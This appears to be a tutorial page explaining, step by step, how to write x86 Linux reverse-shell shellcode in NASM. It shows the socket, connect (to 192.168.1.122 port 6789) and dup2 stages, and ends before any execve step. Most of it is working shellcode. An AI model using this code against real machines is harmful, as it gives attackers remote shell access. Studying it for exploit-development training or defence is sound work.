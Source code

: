 ### socket
We start by establishing a socket using socketcall.  This will return to us a sockfd identifier that we will need to save for use in future calls.
```nasm
xor eax, eax        ; zero out eax
mov ebx, eax        ; zero out ebx
push eax            ; push 0 to stack (protocol: 0 (nonblocking))
mov al, 0x66        ; socketcall
mov bl, 1           ; sys_socket
push ebx            ; push 1 to stack (type: SOCK_STREAM)
push 2              ; domain: AF_INET
mov ecx, esp        ; save pointer to stack
int 0x80
```

### connect
We now connect to a target IP address and port.  In this example I'm using the IP address 192.168.1.122 and port 6789.  These values must be in network byte order and I have written a script to generate these values for you here => 
```nasm
mov edi,eax         ; save sockfd
mov al,0x66         ; socketcall
mov bl,3            ; sys_connect

push 0x7a01a8c0     ; ip address (192.168.1.122)  ; sockaddr_in struct
push word 0x851a    ; port number (6789)          ; sockaddr_in struct
push word 2         ; AF_INET                     ; sockaddr_in struct
mov ecx,esp         ; save pointer to struct

push 0x10           ; push struct length
push ecx            ; push pointer to struct
push edi            ; push sockfd
mov ecx,esp         ; save pointer to stack
int 0x80
```

### dup2
The dup2 function will duplicate the STDOUT/STDIN/STDERR file descriptors onto the sockfd.  This will allow all output to be seen on the sockfd from the connect so the receiver of the reverse shell can see all output.
```nasm
xor ecx,ecx         ; zero out ecx
    mov ebx,edi
    mov al, 0x3f        ; dup2
dup2_loop:
    int 0x80            
    mov al,0x3f         ; dup2
    inc ecx             ; increment ecx until we hit 2
    cmp ecx, 2          ; test if we're at 2
    jle dup2_loop       ; if not, keep calling dup2
```
